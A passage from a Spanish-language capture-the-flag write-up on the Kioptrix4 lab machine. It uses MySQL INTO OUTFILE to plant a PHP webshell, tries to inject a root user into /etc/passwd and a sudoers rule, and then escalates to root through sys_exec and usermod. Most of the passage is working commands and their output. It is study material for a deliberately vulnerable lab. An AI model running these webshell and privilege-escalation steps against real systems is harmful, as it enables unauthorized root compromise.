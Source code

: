 ```python
mysql> SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/shell.php';     
Query OK, 1 row affected (0.00 sec)

mysql> exit
Bye
robert@Kioptrix4:/var/www$ ls
checklogin.php  database.sql  images  index.php  john  login_success.php  logout.php  member.php  robert  shell.php
```
Se valido la webshell de la siguiente forma:
```python
http://192.168.0.69/shell.php?cmd=whoami
```
Con la webshell obtenida no se obtuvieron resultados, procedemos a crear un usuario con privilegios
```python
$openssl passwd -1 -salt alexi alexi
$1$alexi$eGNWFfBkUjcEpDg87R5OV1
```
Se construyó el payload formando la línea: `alexi:$1$alexi$eGNWFfBkUjcEpDg87R5OV1:0:0:root:/root:/bin/bash`, obteniendo el payload:
```sql
SELECT "alexi:$1$alexi$eGNWFfBkUjcEpDg87R5OV1:0:0:root:/root:/bin/bash" INTO OUTFILE '/etc/passwd';
```
Sin embargo, no procedió, porque el archivo ya existía. Creamos otro payload:
```sql
SELECT "robert ALL=(ALL) NOPASSWD:ALL" INTO OUTFILE "/etc/sudoers.d/robert";
```
Pero, sucedió el mismo error:
```sql
mysql> SELECT "robert ALL=(ALL) NOPASSWD:ALL" INTO OUTFILE "/etc/sudoers.d/robert";
ERROR 1 (HY000): Can't create/write to file '/etc/sudoers.d/robert' (Errcode: 2)
```

Cambiando el enfoque del ataque, se logró ver que se puede realizar ejecución de la siguiente forma:
```sql
mysql> select sys_exec('usermod -aG admin robert');
+--------------------------------------+
| sys_exec('usermod -aG admin robert') |
+--------------------------------------+
| NULL                                 | 
+--------------------------------------+
1 row in set (0.05 sec)

mysql> exit
Bye
```
#### Resultados-PoC
Validamos el resultado de la siguiente forma:
```js
robert@Kioptrix4:/var/www$ sudo su
[sudo] password for robert: 
root@Kioptrix4:/var/www# id
uid=0(root) gid=0(root) groups=0(root)
```